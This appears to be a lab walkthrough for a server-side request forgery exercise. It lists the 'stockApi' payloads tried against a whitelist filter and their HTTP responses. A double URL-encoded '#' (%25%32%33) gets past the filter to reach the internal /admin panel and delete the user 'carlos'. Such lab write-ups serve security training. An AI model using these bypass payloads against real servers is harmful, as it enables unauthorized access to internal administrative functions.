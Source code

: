 ```bash
Try:

stockApi=http://localhost@stock.weliketoshop.net

Response:

HTTP/1.1 500 Internal Server Error

Try:

stockApi=http://localhost#@stock.weliketoshop.net

Or

stockApi=http://localhost#stock.weliketoshop.net

Or

stockApi=http://localhost#@stock.weliketoshop.net

Or

stockApi=http://localhost%23@stock.weliketoshop.net

Response:

HTTP/1.1 400 Bad Request

Try:

stockApi=http://localhost%25%32%33@stock.weliketoshop.net

Response:

HTTP/1.1 200 OK

Success with double URL-encoding the # symbol

Go to:

stockApi=http://localhost%25%32%33@stock.weliketoshop.net/admin

Right-Click the "200" response
Click "Show response in browser"
Delete the username "carlos"
Upon failure
Go to: HTTP history

GET /admin/delete?username=carlos HTTP/1.1

Copy:

/delete?username=carlos

Go to repeater

Change:

stockApi=http://localhost%25%32%33@stock.weliketoshop.net/admin

To

stockApi=http://localhost%25%32%33@stock.weliketoshop.net/admin/delete?username=carlos
```